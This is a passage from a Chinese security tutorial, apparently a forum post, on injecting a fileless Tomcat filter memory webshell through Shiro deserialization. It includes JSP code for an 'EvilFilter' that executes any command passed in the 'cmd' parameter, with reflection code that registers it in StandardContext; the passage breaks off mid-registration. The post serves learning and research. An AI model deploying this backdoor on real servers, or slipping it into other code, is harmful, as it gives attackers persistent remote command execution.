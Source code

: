 

# shiro注入filter内存马及tomcat版本对获取context影响的分析 - 先知社区

shiro注入filter内存马及tomcat版本对获取context影响的分析

- - -

### 前言

这是个人在学习filter内存马注入的时候遇到的一个坑，希望后面学习的小白们能够避开。

#### 环境配置及准备

tomcat：tomcat8.5.50(正确版本)，tomcat8.5.79(踩坑版本)  
shiro环境：p神的Java安全配套环境(里面的shirodemo)[https://github.com/phith0n/JavaThings](https://github.com/phith0n/JavaThings)

### shiro注入filter内存马

在之前有了jsp型内存马实现的经验之后，我们需要思考一件事情。之前的以jsp形态为主的内存马的使用方式是通过上传文件然后再访问的方式进行利用，那么如果一个网站他没有文件上传的接口或者是功能这样的话我们该如何实现“种马”呢？这就要说到无文件落地内存马了，这种内存马一般是通过反序列化的方式注入到服务端当中而不会出现文件的落地。

如下是一个简单的jsp型filter内存马的一个简单实现，这里我写的很简洁，前半部分是恶意的filter，后半部分是注册动态注册filter

```plain
<%!
    public class EvilFilter implements Filter {
        public void init(FilterConfig filterConfig){
        }

        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            Runtime.getRuntime().exec(cmd);
            filterChain.doFilter(servletRequest, servletResponse);
        }

        public void destroy(){}
    }
%>

<%
    //StandardContext
    Field field = request.getClass().getDeclaredField("request");
    field.setAccessible(true);
    Request request1 = (Request) field.get(request);
    StandardContext context = (StandardContext) request1.getContext();

    //FilterDef
    Filter filter = new EvilFilter();
    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName("EvilFilter");
    filterDef.setFilterClass(filter.getClass().getName());
    context.addFilterDef(filterDef);

    //FilterConfig
    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(context, filterDef);
    Field field1 = StandardContext.class.getDeclaredField("filterConfigs");
    field1.setAccessible(true);
    Map filterConfigs = (Map)field1.get(context);
```